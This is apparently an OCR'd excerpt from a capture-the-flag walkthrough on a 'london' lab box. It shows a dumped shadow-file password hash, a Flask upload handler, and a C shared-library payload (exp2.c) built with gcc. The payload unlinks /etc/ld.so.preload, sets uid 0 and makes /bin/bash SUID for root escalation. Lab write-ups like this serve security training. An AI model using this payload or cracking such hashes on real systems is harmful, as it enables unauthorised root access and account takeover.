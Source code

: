 ```bash
charles:$6$yO4vvijF$RIQZn9g5y5s3cP61AvKHe9ou2miZgmPdzlf.4gWinIEaG4PyBFPm5cgm0OMQF18./TBhs48Q/UmjOCs/ye7dV0:19798:0:99999:7:::
```

```bash
beth@london:~$ cat app.py

[REDACTED] - MORE

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return "No file part"
    file = request.files['file']
    if file.filename == '':
        return "No selected file"
    if file:
        filename = secure_filename(file.filename)
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)
        if is_image(file_path):
            return redirect(url_for('gallery'))
        else:
            os.remove(file_path)  # Remove the non-image file
            return "Uploaded file is not an image"
    return "Invalid file"

[REDACTED] - MORE

beth@london:~$ nano /tmp/exp2.c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unlink("/etc/ld.so.preload");
    setgid(0);
    setuid(0);
    system("/bin/chmod +s /bin/bash");
}

beth@london:~$ which gcc
/usr/bin/gcc
beth@london:~$ gcc -fPIC -shared -o /tmp/exp2.so /tmp/exp2.c -nostartfiles

beth@london:~$ ls -la /tmp/exp2.so
-rwxrwxr-x 1 beth beth 6456 Oct  2 00:34 /tmp/exp2.so
beth@london:~$ 

```
